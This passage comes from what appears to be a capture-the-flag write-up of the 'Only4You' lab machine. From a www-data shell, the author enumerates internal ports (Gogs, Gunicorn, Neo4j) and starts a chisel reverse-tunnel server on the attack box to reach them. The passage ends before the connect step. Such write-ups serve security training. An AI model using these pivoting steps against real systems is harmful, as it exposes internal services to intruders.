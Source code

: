
## Shell as john

---

Discovered a few open ports. After enumerating them (using netcat and curl ):

-   Port 3000 appears to be for Gogs, a git service.
-   Port 8001 seems to host a Gunicorn application.
-   Port 7474 and 7687 are likely associated with Neo4j.

```bash
(remote) www-data@only4you:/var/www/only4you.htb$ ss -antlp
State         Recv-Q        Send-Q                    Local Address:Port                  Peer Address:Port        Process
LISTEN        0             511                             0.0.0.0:80                         0.0.0.0:*            users:(("nginx",pid=1041,fd=6),("nginx",pid=1040,fd=6))
LISTEN        0             4096                      127.0.0.53%lo:53                         0.0.0.0:*
LISTEN        0             128                             0.0.0.0:22                         0.0.0.0:*
LISTEN        0             4096                          127.0.0.1:3000                       0.0.0.0:*
LISTEN        0             2048                          127.0.0.1:8001                       0.0.0.0:*
LISTEN        0             70                            127.0.0.1:33060                      0.0.0.0:*
LISTEN        0             151                           127.0.0.1:3306                       0.0.0.0:*
LISTEN        0             50                   [::ffff:127.0.0.1]:7474                             *:*
LISTEN        0             128                                [::]:22                            [::]:*
LISTEN        0             4096                 [::ffff:127.0.0.1]:7687                             *:*
```

To access these ports remotely, used chisel for port forwarding.

_Start a reverse listener on port 1080 on the attack box_

```bash
> ./chisel_1.8.1_linux_amd64 server --reverse -p 1080
2023/06/23 22:26:39 server: Reverse tunnelling enabled
2023/06/23 22:26:39 server: Fingerprint udkvbRfz2hUuuPspcbn5uOvvLVclhqVinmVsrLArhQA=
2023/06/23 22:26:39 server: Listening on http://0.0.0.0:1080
2023/06/23 22:41:52 server: session#4: tun: proxy#R:3000=>3000: Listening
2023/06/23 22:41:52 server: session#4: tun: proxy#R:8001=>8001: Listening
2023/06/23 22:41:52 server: session#4: tun: proxy#R:7474=>7474: Listening
2023/06/23 22:41:52 server: session#4: tun: proxy#R:7687=>7687: Listening

```

_Connect to the attack box and port forward_
